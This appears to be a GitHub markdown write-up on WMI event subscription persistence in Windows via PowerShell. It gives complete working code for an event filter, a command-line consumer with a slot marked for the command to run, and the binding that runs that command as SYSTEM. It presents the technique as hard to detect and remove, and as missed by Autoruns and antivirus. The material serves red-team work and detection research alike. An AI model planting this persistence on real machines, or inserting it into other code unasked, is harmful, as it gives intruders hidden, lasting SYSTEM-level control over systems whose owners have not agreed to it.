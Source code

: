 #### WMI Event Persistence via Powershell
WMI Event persistence explained, you can find a bloated version in powersploit.
Three parts to this: 
* WMI Event Filter
* Event Consumer
* Filter/Consumer Binding
This technique gets you *SYSTEM* level persistence, requires admin rights to execute.
Autoruns doesn't even check for this yet. (doubt any AVs are either)
Difficult to detect, Difficult to remove if you dont know what youre doing.
##### WMI Event Filter
Create an event that checks every 60 seconds for a change in Win32_PerfFormattedData_PerfOS_System. (this is always changing)

```    
    $EventFilter = ([WMICLASS]"\\.\root\subscription:__EventFilter").CreateInstance() 
    $EventFilter.QueryLanguage  = "WQL" 
    $EventFilter.Query          = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325" 
    $EVentFilter.EventNamespace = "root\cimv2" 
    $EventFilter.Name           = "OBVIOUSHACKER" 
    $Result = $EventFilter.Put() 
    $Filter = $Result.Path
```

http://msdn.microsoft.com/en-us/library/aa394639(v=vs.85).aspx

##### Event Consumer
Configure what to execute once the event occurs.
Current example is just a ping.

```
    $InstanceConsumer = ([wmiclass]"\\.\root\subscription:CommandLineEventConsumer").CreateInstance() 
    $InstanceConsumer.Name = "OBVIOUSHACKER" 
    $InstanceConsumer.CommandLineTemplate = "ping 127.0.0.1 -n 100"          #CMD TO EXECUTE HERE
    $InstanceConsumer.WorkingDirectory = "C:\\windows\\system32"
    $Result = $InstanceConsumer.Put() 
    $Consumer = $Result.Path
```

http://msdn.microsoft.com/en-us/library/aa389231(v=vs.85).aspx
http://msdn.microsoft.com/en-us/library/aa393649(v=vs.85).aspx

##### Filter/Consumer Binding
This is the object that correlates the Filter with the Consumer.
Runs as system as a child of WmiPrvSE.exe under the svchost.exe running Dcom service.

```
    $InstanceBinding = ([wmiclass]"\\.\root\subscription:__FilterToConsumerBinding").CreateInstance() 
    $InstanceBinding.Filter   = $Filter
    $InstanceBinding.Consumer = $Consumer
    $Result = $InstanceBinding.Put() 
```

